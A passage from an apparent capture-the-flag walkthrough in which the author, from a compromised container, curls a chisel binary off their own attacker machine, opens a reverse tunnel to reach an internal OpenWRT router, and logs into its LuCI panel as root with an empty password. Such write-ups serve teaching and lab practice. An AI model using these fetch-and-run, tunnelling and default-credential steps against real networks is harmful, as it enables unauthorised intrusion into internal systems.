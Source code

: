 There’s a reference to “LuCI”, which is related to WRT:

![image-20240726133914461](/img/image-20240726133914461.png)

It looks like the access point (AP) is an OpenWRT instance.

#### Create Tunnel

I’ll grab a copy of `chisel` from it’s [release page](https://github.com/jpillora/chisel/releases) and upload it to the container using a Python webserver on my VM:

```

root@attica01:~# curl 10.10.14.6/chisel_1.9.1_linux_amd64 -o c  
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 8452k  100 8452k    0     0  7391k      0  0:00:01  0:00:01 --:--:-- 7394k
root@attica01:~# chmod +x c

```

I’ll start the Chisel server on my VM and connect:

```

root@attica01:~# ./c client 10.10.14.6:8000 R:192.168.1.1:80
2024/07/26 17:48:12 client: Connecting to ws://10.10.14.6:8000
2024/07/26 17:48:12 client: Connected (Latency 87.342542ms)

```

The server shows the tunnel from 80 on my host to 80 on the OpenWRT box:

```

oxdf@hacky$ sudo ./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
2024/07/26 13:48:10 server: Reverse tunnelling enabled
2024/07/26 13:48:10 server: Fingerprint A+RLnFcQChd6sJabm217lZd8QqH3DvYIBhbq1/lm+Fw=
2024/07/26 13:48:10 server: Listening on http://0.0.0.0:8000
2024/07/26 13:48:12 server: session#1: tun: proxy#R:80=>192.168.1.1:80: Listening

```

#### Enumerate OpenWRT

Visiting `localhost` in Firefox redirects to `/cgi-bin/luci/` which gives a login page:

![image-20240726134959480](/img/image-20240726134959480.png)

The [OpenWRT quickstart guide](https://openwrt.org/docs/guide-quick-start/walkthrough_login) says:

> root is the username of the main administrative user on OpenWrt. We’ll need to set that after we login. Log in with the username of **root** and leave the password field empty.

It works:

![image-20240726135138064](/img/image-20240726135138064.png)
